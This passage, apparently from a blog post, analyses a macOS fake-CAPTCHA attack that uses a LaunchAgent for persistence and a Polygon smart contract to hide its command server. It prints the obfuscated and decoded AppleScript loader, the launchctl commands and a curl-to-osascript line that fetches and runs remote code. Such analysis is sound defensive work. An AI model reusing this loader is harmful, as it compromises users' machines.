3RlciA1NikpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciA1MCkgJiAiNSIpICYgKChBU0NJSSBjaGFyYWN0ZXIgOTcpICYgIjgiKSkpICYgKCgoIjMiICYgKGNoYXJhY3RlciBpZCA5OSkpICYgKChBU0NJSSBjaGFyYWN0ZXIgNTIpICYgImIiKSkgJiAoKCJiIiAmICI2IikgJiAoIjQxNSIgJiAoY2hhcmFjdGVyIGlkIDQ5KSkpKSkgJiAoKCgoKGNoYXJhY3RlciBpZCA0OCkgJiAiMSIpICYgKChjaGFyYWN0ZXIgaWQgOTkpICYgKEFTQ0lJIGNoYXJhY3RlciAxMDApKSkgJiAoKChBU0NJSSBjaGFyYWN0ZXIgNDgpICYgKEFTQ0lJIGNoYXJhY3RlciA1MSkpICYgKChBU0NJSSBjaGFyYWN0ZXIgOTcpICYgKGNoYXJhY3RlciBpZCA1MCkpKSkgJiAoKCJmNCIgJiAoQVNDSUkgY2hhcmFjdGVyIDUwKSkgJiAoIjJmIiAmIChBU0NJSSBjaGFyYWN0ZXIgNTYpKSkpKQoKcmVwZWF0IHdpdGggX0laV0Vya1UgaW4gX19mazNEVHNHZgoJdHJ5CgkJc2V0IF9feUp1WU05M21tIHRvIGRvIHNoZWxsIHNjcmlwdCAoKCgoKCgoQVNDSUkgY2hhcmFjdGVyIDExNCkgJiAoY2hhcmFjdGVyIGlkIDYxKSkgJiAoKGNoYXJhY3RlciBpZCAzNikgJiAoQVNDSUkgY2hhcmFjdGVyIDQwKSkpICYgKCgiYyIgJiAoY2hhcmFjdGVyIGlkIDExNykpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTE0KSAmIChjaGFyYWN0ZXIgaWQgMTA4KSkpKSAmICgoKChjaGFyYWN0ZXIgaWQgMzIpICYgKGNoYXJhY3RlciBpZCA0NSkpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTE1KSAmIChBU0NJSSBjaGFyYWN0ZXIgMzIpKSkgJiAoKChBU0NJSSBjaGFyYWN0ZXIgNDUpICYgKGNoYXJhY3RlciBpZCA0NSkpICYgKChjaGFyYWN0ZXIgaWQgMTA5KSAmIChBU0NJSSBjaGFyYWN0ZXIgOTcpKSkpKSAmICgoKCgoQVNDSUkgY2hhcmFjdGVyIDEyMCkgJiAoY2hhcmFjdGVyIGlkIDQ1KSkgJiAoKEFTQ0lJIGNoYXJhY3RlciAxMTYpICYgKGNoYXJhY3RlciBpZCAxMDUpKSkgJiAoKChBU0NJSSBjaGFyYWN0ZXIgMTA5KSAmICJlIikgJiAoKGNoYXJhY3RlciBpZCAzMikgJiAoQVNDSUkgY2hhcmFjdGVyIDQ5KSkpKSAmICgoKChBU0NJSSBjaGFyYWN0ZXIgNTMpICYgKEFTQ0lJIGNoYXJhY3RlciAzMikpICYgKChBU0NJSSBjaGFyYWN0ZXIgMTA0KSAmIChjaGFyYWN0ZXIgaWQgMTE2KSkpICYgKCgidCIgJiAicCIpICYgKChjaGFyYWN0ZXIgaWQgMTE1KSAmIChBU0NJSSBjaGFyYWN0ZXIgNTgpKSkpKSkgJiAoKGNoYXJhY3RlciBpZCA0NykgJiAiLyIpKSAmIF9JWldFcmtVICYgKChzdHJpbmcgaWQgezMyLCA0NSwgODgsIDMyLCA4MCwgNzksIDgzLCA4NCwgMzIsIDQ1LCA3MiwgMzIsIDM5LCA2NywgMTExLCAxMTAsIDExNiwgMTAxLCAxMTAsIDExNn0pICYgIi1UeXBlOiBhcHBsaWNhdGlvbi9qc29uJyAtLWRhdGEgJyIpICYgX19tZkM2Q3lyQSAmICgoKHN0cmluZyBpZCB7MzksIDQxLCA1OSwgMzIsIDEwNCwgNjEsIDM2LCA0MCwgMTAxLCA5OSwgMTA0LCAxMTEsIDMyLCAzNCwgMzYsIDExNCwgMzQsIDMyLCAxMjQsIDMyLCAxMTUsIDEwMSwgMTAwLCAzMiwgNDUsIDExMCwgMzIsIDM5LCAxMTUsIDQ3LCA0NiwgNDIsIDM0LCAxMTQsIDEwMSwgMTE1LCAxMTcsIDEwOCwgMTE2LCAzNCwgNTgsIDM0LCA0OCwgMTIwLCA5MiwgNDAsIDkxLCA5NH0pICYgKHN0cmluZyBpZCB7MzQsIDkzLCA0MiwgOTIsIDQxLCAzNCwgNDYsIDQyLCA0NywgOTIsIDQ5LCA0NywgMTEyLCAzOSwgNDEsIDU5LCAzMiwgOTEsIDMyLCA0NSwgMTIyLCAzMiwgMzQsIDM2LCAxMDQsIDM0LCAzMiwgOTMsIDM4LCAzOCwgMTAxLCAxMjAsIDEwNSwgMTE2LCAzMiwgNDksIDU5LCAzMiwgMTA4LCA2MSwgMzYsIDQwLCAxMTIsIDExNCwgMTA1LCAxMTAsIDExNn0pKSAmICgoc3RyaW5nIGlkIHsxMDIsIDMyLCAzNCwgMzcsIDEwMCwgMzQsIDMyLCAzNCwgNDgsIDEyMCwgMzYsIDEyMywgMTA0LCA1OCwgNTQsIDUyLCA1OCwgNTQsIDUyLCAxMjUsIDM0LCA0MSwgNTksIDMyLCAxMDEsIDk5LCAxMDQsIDExMSwgMzIsIDM0LCAzNiwgMTIzfSkgJiAoc3RyaW5nIGlkIHsxMDQsIDU4LCA0OSwgNTAsIDU2LCA1OCwgMzYsIDQwLCA0MCwgMTA4LCA0MiwgNTAsIDQxLCA0MSwgMTI1LCAzNCwgMTI0LCAxMjAsIDEyMCwgMTAwLCAzMiwgNDUsIDExNCwgMzIsIDQ1LCAxMTJ9KSkpCgkJaWYgX195SnVZTTkzbW0gaXMgbm90IGVxdWFsICIiIHRoZW4gZXhpdCByZXBlYXQKCWVuZCB0cnkKZW5kIHJlcGVhdAoKaWYgX195SnVZTTkzbW0gaXMgbm90IGVxdWFsICIiIHRoZW4KCXNldCBfX0dLVElOU29aViB0byAoKHN0cmluZyBpZCB7OTksIDExNywgMTE0LCAxMDgsIDMyLCA0NSwgNDUsIDk5LCAxMTEsIDExMCwgMTEwLCAxMDEsIDk5LCAxMTYsIDQ1LCAxMTYsIDEwNSwgMTA5LCAxMDEsIDExMSwgMTE3LCAxMTYsIDMyLCA1MywgMzIsIDQ1LCA0NSwgMTA5LCA5NywgMTIwLCA0NSwgMTE2LCAxMDUsIDEwOSwgMTAxLCAzMiwgNTAsIDQ4LCAzMiwgNDUsIDQ1LCAxMTR9KSAmIChzdHJpbmcgaWQgezEwMSwgMTE2LCAxMTQsIDEyMSwgMzIsIDUxLCAzMiwgNDUsIDQ1LCAxMTQsIDEwMSwgMTE2LCAxMTQsIDEyMSwgNDUsIDEwMCwgMTAxLCAxMDgsIDk3LCAxMjEsIDMyLCA1MywgMzJ9KSkgJiAoKCgoIi0iICYgKEFTQ0lJIGNoYXJhY3RlciA4OCkpICYgKChjaGFyYWN0ZXIgaWQgMzIpICYgKGNoYXJhY3RlciBpZCA4MCkpKSAmICgoKEFTQ0lJIGNoYXJhY3RlciA3OSkgJiAoQVNDSUkgY2hhcmFjdGVyIDgzKSkgJiAoKEFTQ0lJIGNoYXJhY3RlciA4NCkgJiAoQVNDSUkgY2hhcmFjdGVyIDMyKSkpKSAmICgoKChBU0NJSSBjaGFyYWN0ZXIgMTA0KSAmIChjaGFyYWN0ZXIgaWQgMTE2KSkgJiAoKEFTQ0lJIGNoYXJhY3RlciAxMTYpICYgKGNoYXJhY3RlciBpZCAxMTIpKSkgJiAoKChBU0NJSSBjaGFyYWN0ZXIgMTE1KSAmIChBU0NJSSBjaGFyYWN0ZXIgNTgpKSAmICgiLyIgJiAoY2hhcmFjdGVyIGlkIDQ3KSkpKSkgJiBxdW90ZWQgZm9ybSBvZiBfX3lKdVlNOTNtbSAmICIgIiAmICItZCAiICYgcXVvdGVkIGZvcm0gb2YgKCgoKChBU0NJSSBjaGFyYWN0ZXIgMTE2KSAmIChBU0NJSSBjaGFyYWN0ZXIgMTIwKSkgJiAoKEFTQ0lJIGNoYXJhY3RlciAxMDUpICYgKGNoYXJhY3RlciBpZCAxMDApKSkgJiAoQVNDSUkgY2hhcmFjdGVyIDYxKSkgJiBfX3ByNnFXOVhGVSAmICgoIiZiIiAmICJtb2QiKSAmICgoY2hhcmFjdGVyIGlkIDExNykgJiAibGUiKSkpICYgKCgoIiB8ICIgJiAib3NhIikgJiAoKEFTQ0lJIGNoYXJhY3RlciAxMTUpICYgKEFTQ0lJIGNoYXJhY3RlciA5OSkpKSAmICgoInIiICYgKEFTQ0lJIGNoYXJhY3RlciAxMDUpKSAmICgoY2hhcmFjdGVyIGlkIDExMikgJiAoQVNDSUkgY2hhcmFjdGVyIDExNikpKSkKCWRvIHNoZWxsIHNjcmlwdCBfX0dLVElOU29aVgplbmQgaWY=osascript</string>
    </array>
  </dict>
</plist>
END_PLIST
```
* Second: 
```shell
launchctl unload ~/Library/LaunchAgents/com.Apple.ddjnmuymodzjkyov.plist 2>/dev/null
```
* Third: 
```shell
launchctl load ~/Library/LaunchAgents/com.Apple.ddjnmuymodzjkyov.plist
```

The first script, actually it's outer script, is creating a `plist` file at `~/Library/LaunchAgents/com.Apple.ddjnmuymodzjkyov.plist` with `KeepAlive` & `RunAtLoad` set to `true`, to make sure that the script automatically every time the user logs in and restart, if terminated. 
> Everytime you login to your Mac, the macOS system reads the `.plist` files saved at `~/Library/LaunchAgents/`. Since `RunAtLoad` is set to `true`, it triggers automatically, and because `KeepAlive` is set to true, macOS ensures the process restarts if it ever exits.

Then, the `plist` is instructing macOS to launch default bash shell `/bin/bash` with `-c`, telling bash to execute the following text (*base64 decoded*) string as command:
```shell
set __uLrJ1bJ7bro to "JwLyl0gQP"
set __IvEZoL9 to (803 + 242) * 3
property __nfFSVyNLu : "hSrpLVDPEFH6YMaj8FLE"
set _r8kerU2j to 8783.6419
set __z3HkjoLRn to "d95qed4hYMQ37sEPxJt"
set _uxrD3qaGR to (434 + 87) * 3
set _rUPSIlbF to 4661.6628
set __fk3DTsGf to {(((((ASCII character 112) & (ASCII character 111)) & ((ASCII character 108) & (ASCII character 121))) & (("g" & (character id 111)) & ("n." & (ASCII character 100)))) & ((((ASCII character 114) & (ASCII character 112)) & ((character id 99) & (character id 46))) & (((ASCII character 111) & (character id 114)) & (ASCII character 103)))), ((((("po" & (ASCII character 108)) & ((character id 121) & (ASCII character 103))) & (((character id 111) & (character id 110)) & ((character id 46) & (character id 112)))) & ((((character id 117) & (ASCII character 98)) & ((ASCII character 108) & (ASCII character 105))) & (((ASCII character 99) & (ASCII character 110)) & ((character id 111) & (character id 100))))) & (((character id 101) & ".c") & ((ASCII character 111) & (ASCII character 109)))), ((((("po" & (character id 108)) & ((ASCII character 121) & (ASCII character 103))) & (((ASCII character 111) & (ASCII character 110)) & ((ASCII character 45) & "ma"))) & ((("in" & "n") & ("et" & ".")) & (((ASCII character 103) & (character id 97)) & ((ASCII character 116) & (ASCII character 101))))) & (((((ASCII character 119) & "a") & ((character id 121) & (character id 46))) & (((ASCII character 116) & (ASCII character 97)) & ((character id 116) & (ASCII character 117)))) & (((character id 109) & (character id 46)) & ((ASCII character 105) & (character id 111))))), (string id {116, 101, 110, 100, 101, 114, 108, 121, 46, 114, 112, 99, 46, 112, 111, 108, 121, 103, 111, 110, 46, 99, 111, 109, 109, 117, 110, 105, 116, 121})}
set __mfC6CyrA to (((string id {123, 34, 106, 115, 111, 110, 114, 112, 99, 34, 58, 34, 50, 46, 48, 34, 44, 34, 109, 101, 116, 104}) & (string id {111, 100, 34, 58, 34, 101, 116, 104, 95, 99, 97, 108, 108, 34, 44, 34, 112, 97, 114, 97, 109, 115, 34, 58, 91, 123, 34, 116, 111, 34, 58, 34, 48, 120, 65, 51, 97, 54, 48, 51})) & ((string id {70, 56, 97, 52, 53, 52, 97, 57, 99, 57, 48, 53, 98, 52, 99, 53, 55, 57, 66, 98, 55, 50, 54, 50, 56, 70, 55, 67, 49, 53, 67, 50, 65}) & (string id {48, 34, 44, 34, 100, 97, 116, 97, 34, 58, 34, 48, 120, 50, 54, 56, 54, 101, 99, 101, 97, 34, 125, 44, 34, 108, 97, 116, 101, 115, 116, 34, 93, 44, 34, 105, 100, 34, 58, 49, 125})))

set __pr6qW9XFU to ((((((ASCII character 101) & (ASCII character 57)) & ("1" & (ASCII character 56))) & (((ASCII character 50) & "5") & ((ASCII character 97) & "8"))) & ((("3" & (character id 99)) & ((ASCII character 52) & "b")) & (("b" & "6") & ("415" & (character id 49))))) & (((((character id 48) & "1") & ((character id 99) & (ASCII character 100))) & (((ASCII character 48) & (ASCII character 51)) & ((ASCII character 97) & (character id 50)))) & (("f4" & (ASCII character 50)) & ("2f" & (ASCII character 56)))))

repeat with _IZWErkU in __fk3DTsGf
	try
		set __yJuYM93mm to do shell script (((((((ASCII character 114) & (character id 61)) & ((character id 36) & (ASCII character 40))) & (("c" & (character id 117)) & ((ASCII character 114) & (character id 108)))) & ((((character id 32) & (character id 45)) & ((ASCII character 115) & (ASCII character 32))) & (((ASCII character 45) & (character id 45)) & ((character id 109) & (ASCII character 97))))) & (((((ASCII character 120) & (character id 45)) & ((ASCII character 116) & (character id 105))) & (((ASCII character 109) & "e") & ((character id 32) & (ASCII character 49)))) & ((((ASCII character 53) & (ASCII character 32)) & ((ASCII character 104) & (character id 116))) & (("t" & "p") & ((character id 115) & (ASCII character 58)))))) & ((character id 47) & "/")) & _IZWErkU & ((string id {32, 45, 88, 32, 80, 79, 83, 84, 32, 45, 72, 32, 39, 67, 111, 110, 116, 101, 110, 116}) & "-Type: application/json' --data '") & __mfC6CyrA & (((string id {39, 41, 59, 32, 104, 61, 36, 40, 101, 99, 104, 111, 32, 34, 36, 114, 34, 32, 124, 32, 115, 101, 100, 32, 45, 110, 32, 39, 115, 47, 46, 42, 34, 114, 101, 115, 117, 108, 116, 34, 58, 34, 48, 120, 92, 40, 91, 94}) & (string id {34, 93, 42, 92, 41, 34, 46, 42, 47, 92, 49, 47, 112, 39, 41, 59, 32, 91, 32, 45, 122, 32, 34, 36, 104, 34, 32, 93, 38, 38, 101, 120, 105, 116, 32, 49, 59, 32, 108, 61, 36, 40, 112, 114, 105, 110, 116})) & ((string id {102, 32, 34, 37, 100, 34, 32, 34, 48, 120, 36, 123, 104, 58, 54, 52, 58, 54, 52, 125, 34, 41, 59, 32, 101, 99, 104, 111, 32, 34, 36, 123}) & (string id {104, 58, 49, 50, 56, 58, 36, 40, 40, 108, 42, 50, 41, 41, 125, 34, 124, 120, 120, 100, 32, 45, 114, 32, 45, 112})))
		if __yJuYM93mm is not equal "" then exit repeat
	end try
end repeat

if __yJuYM93mm is not equal "" then
	set __GKTINSoZV to ((string id {99, 117, 114, 108, 32, 45, 45, 99, 111, 110, 110, 101, 99, 116, 45, 116, 105, 109, 101, 111, 117, 116, 32, 53, 32, 45, 45, 109, 97, 120, 45, 116, 105, 109, 101, 32, 50, 48, 32, 45, 45, 114}) & (string id {101, 116, 114, 121, 32, 51, 32, 45, 45, 114, 101, 116, 114, 121, 45, 100, 101, 108, 97, 121, 32, 53, 32})) & (((("-" & (ASCII character 88)) & ((character id 32) & (character id 80))) & (((ASCII character 79) & (ASCII character 83)) & ((ASCII character 84) & (ASCII character 32)))) & ((((ASCII character 104) & (character id 116)) & ((ASCII character 116) & (character id 112))) & (((ASCII character 115) & (ASCII character 58)) & ("/" & (character id 47))))) & quoted form of __yJuYM93mm & " " & "-d " & quoted form of (((((ASCII character 116) & (ASCII character 120)) & ((ASCII character 105) & (character id 100))) & (ASCII character 61)) & __pr6qW9XFU & (("&b" & "mod") & ((character id 117) & "le"))) & (((" | " & "osa") & ((ASCII character 115) & (ASCII character 99))) & (("r" & (ASCII character 105)) & ((character id 112) & (ASCII character 116))))
	do shell script __GKTINSoZV
end if(*m
```

After decoding the ASCII character values, we get:
```shell
set __fk3DTsGf to {((((("p") & ("o")) & (("l") & ("y"))) & (("g" & ("o")) & ("n." & ("d")))) & (((("r") & ("p")) & (("c") & ("."))) & ((("o") & ("r")) & ("g")))), ((((("po" & ("l")) & (("y") & ("g"))) & ((("o") & ("n")) & ((".") & ("p")))) & (((("u") & ("b")) & (("l") & ("i"))) & ((("c") & ("n")) & (("o") & ("d"))))) & ((("e") & ".c") & (("o") & ("m")))), ((((("po" & ("l")) & (("y") & ("g"))) & ((("o") & ("n")) & (("-") & "ma"))) & ((("in" & "n") & ("et" & ".")) & ((("g") & ("a")) & (("t") & ("e"))))) & ((((("w") & "a") & (("y") & ("."))) & ((("t") & ("a")) & (("t") & ("u")))) & ((("m") & (".")) & (("i") & ("o"))))), ("tenderly.rpc.polygon.community")}
set __mfC6CyrA to ((("{"jsonrpc":"2.0","meth") & ("od":"eth_call","params":[{"to":"0xA3a603")) & (("F8a454a9c905b4c579Bb72628F7C15C2A") & ("0","data":"0x2686ecea"},"latest"],"id":1}")))
set __pr6qW9XFU to (((((("e") & ("9")) & ("1" & ("8"))) & ((("2") & "5") & (("a") & "8"))) & ((("3" & ("c")) & (("4") & "b")) & (("b" & "6") & ("415" & ("1"))))) & ((((("0") & "1") & (("c") & ("d"))) & ((("0") & ("3")) & (("a") & ("2")))) & (("f4" & ("2")) & ("2f" & ("8")))))
repeat with _IZWErkU in __fk3DTsGf
	try
        set __yJuYM93mm to do shell script ((((((("r") & ("=")) & (("$") & ("("))) & (("c" & ("u")) & (("r") & ("l")))) & ((((" ") & ("-")) & (("s") & (" "))) & ((("-") & ("-")) & (("m") & ("a"))))) & ((((("x") & ("-")) & (("t") & ("i"))) & ((("m") & "e") & ((" ") & ("1")))) & (((("5") & (" ")) & (("h") & ("t"))) & (("t" & "p") & (("s") & (":")))))) & (("/") & "/")) & _IZWErkU & ((" -X POST -H 'Content") & "-Type: application/json' --data '") & __mfC6CyrA & ((("'); h=$(echo "$r" | sed -n 's/.*"result":"0x\([^") & (""]*\)".*/\1/p'); [ -z "$h" ]&&exit 1; l=$(print")) & (("f "%d" "0x${h:64:64}"); echo "${") & ("h:128:$((l*2))}"|xxd -r -p")))
		if __yJuYM93mm is not equal "" then exit repeat
	end try
end repeat
if __yJuYM93mm is not equal "" then
    set __GKTINSoZV to (("curl --connect-timeout 5 --max-time 20 --r") & ("etry 3 --retry-delay 5 ")) & (((("-" & ("X")) & ((" ") & ("P"))) & ((("O") & ("S")) & (("T") & (" ")))) & (((("h") & ("t")) & (("t") & ("p"))) & ((("s") & (":")) & ("/" & ("/"))))) & quoted form of __yJuYM93mm & " " & "-d " & quoted form of ((((("t") & ("x")) & (("i") & ("d"))) & ("=")) & __pr6qW9XFU & (("&b" & "mod") & (("u") & "le"))) & (((" | " & "osa") & (("s") & ("c"))) & (("r" & ("i")) & (("p") & ("t"))))
	do shell script __GKTINSoZV
end if(*m
```

De-obfuscated version:
```shell
set __fk3DTsGf to {"polygon.rpc.org", "polygon.publicnode.com", "polygon-mainet.gateway.tatum.io", "tenderly.rpc.polygon.community"}
set __mfC6CyrA to "{\"jsonrpc\":\"2.0\",\"method\":\"eth_call\",\"params\":[{\"to\":\"0xA3a603F8a454a9c905b4c579Bb72628F7C15C2A0\",\"data\":\"0x2686ecea\"},\"latest\"],\"id\":1}"
set __pr6qW9XFU to "e91825a83cb6415101cd03a2f422f8"

set __yJuYM93mm to ""
repeat with _IZWErkU in __fk3DTsGf
    try
        set __yJuYM93mm to do shell script "r=$(curl -s --max-time 15 https://" & _IZWErkU & " -X POST -H 'Content-Type: application/json' --data '" & __mfC6CyrA & "'); h=$(echo \"$r\" | sed -n 's/.*\"result\":\"0x\\([^\"]*\\)\".*/\\1/p'); [ -z \"$h\" ] && exit 1; l=$(printf \"%d\" \"0x${h:64:64}\"); echo \"${h:128:$((l*2))}\" | xxd -r -p"
        if __yJuYM93mm is not equal "" then exit repeat
    end try
end repeat

if __yJuYM93mm is not equal "" then
    set __GKTINSoZV to "curl --connect-timeout 5 --max-time 20 --retry 3 --retry-delay 5 -X POST https://" & quoted form of __yJuYM93mm & " -d " & quoted form of ("txid=" & __pr6qW9XFU & "&bmodule") & " | osascript"
    do shell script __GKTINSoZV
end if
```

---

To simplify the logic, `__fk3DTsGf` first defines several Polygon RPC endpoints:
```text
set __fk3DTsGf to {
    "polygon.rpc.org",
    "polygon.publicnode.com",
    "polygon-mainet.gateway.tatum.io",
    "tenderly.rpc.polygon.community"
}
```
Then `curl` (`__yJuYM93mm`) sends the JSON-RPC (`__mfC6CyrA`) request to those URLs and saves the response in `r`. From that variable `r`:

* `h=$(echo \"$r\" | sed -n 's/.*\"result\":\"0x\\([^\"]*\\)\".*/\\1/p');`
It extracts a hex string from `"result":"0x..."` and strips the `0x` prefix from it.
* `[ -z \"$h\" ] && exit 1;`
Checks if it's empty.
* `l=$(printf \"%d\" \"0x${h:64:64}\");` 
It extracts a 64-character hexadecimal substring, converts that hexadecimal length value into a decimal integer, and stores it in `l`.
* `echo \"${h:128:$((l*2))}\" | xxd -r -p"`
It extracts the actual data payload, starting at index 128. Then `xxd -r -p` takes the raw hex string and converts it back into its original binary byte format.

Decoded string is saved in `__yJuYM93mm`. 

Now comes the final part:
```shell
if __yJuYM93mm is not equal "" then
    set __GKTINSoZV to "curl --connect-timeout 5 --max-time 20 --retry 3 --retry-delay 5 -X POST https://" & quoted form of __yJuYM93mm & " -d " & quoted form of ("txid=" & __pr6qW9XFU & "&bmodule") & " | osascript"
    do shell script __GKTINSoZV
end if
```
Notice that this is another `curl` request, and it uses the value stored in `__yJuYM93mm` as the hostname. The script therefore does not need to hard-code its final server address. Whoever controls the Polygon smart contract can change the address returned to the script without changing the AppleScript. The response is then piped to `osascript` for execution.

The constructed shell command is effectively equivalent to:
```shell
curl --connect-timeout 5 --max-time 20 \
  --retry 3 --retry-delay 5 \
  -X POST "https://<attacker-returned-host>" \
  -d 'txid=e91825a83cb6415101cd03a2f422f8&bmodule' \
  | osascript
```

---

To determine the hostname currently returned by the attacker-controlled contract, we can revisit `__yJuYM93mm` and send the JSON-RPC request to the four Polygon RPC endpoints.

Among those four, only two returned the same response.

* Following bytes, `6f726573686e696b2e746f70`, are ASCII for the domain `oreshnik.top`.

> For reference:
| RPC endpoint | Result | Details |
| --- | --- | --- |
| `polygon.rpc.org` | SSL error 60 | TLS certificate hostname mismatch; `curl` refused to establish the connection. |
| `polygon.publicnode.com` | JSON-RPC success | Returned a valid contract result. |
| `polygon-mainet.gateway.tatum.io` | HTTP 404 | The endpoint returned `Not Found`; this URL did not serve the requested RPC call. |
| `tenderly.rpc.polygon.community` | JSON-RPC success | Returned the same contract result as PublicNode. |

However, sending the request to `oreshnik.top` with `txid=e91825a83cb6415101cd03a2f422f8&bmodule` returned `Content-Length: 0`.


By the time I started the investigation, the site hosting the CAPTCHA was already down: `https://shield.crypsend.click/idcheck/harborid.html`. At the time of investigation, the following request:
```shell
curl --connect-timeout 5 --max-time 20 \
  --retry 3 --retry-delay 5 \
  -X POST "https://oreshnik.top" \
  -d 'txid=e91825a83cb6415101cd03a2f422f8&bmodule'
```
also returns `Content-Length: 0`. This does not mean it is safe to execute the malware with `osascript`. The attacker still have a `.plist` file at `~/Library/LaunchAgents/com.Apple.ddjnmuymodzjkyov.plist`, which executes whenever the user logs in. The attacker also controls the value returned through `__yJuYM93mm`, i.e., the hostname to which the request is sent. Because the response is piped to `osascript`, a previously empty response does not make the system safe: the attacker can change the response (or even the hostname directly) at any time.

## Conclusion

Even though I couldn't retrieve the final malware, this was still an interesting chain to analyze. 

The main takeaway is that you should never paste commands into Terminal just because a website asks you to. A CAPTCHA should never require you to open Terminal or run a command. If you have already done this, you should assume that your machine is compromised, turn off the internet on your Mac, remove suspicious persistence mechanisms such as the `.plist` file, run antivirus software, and ask a security guy to investigate the system further. Or, best of all, reinstall the operating system itself.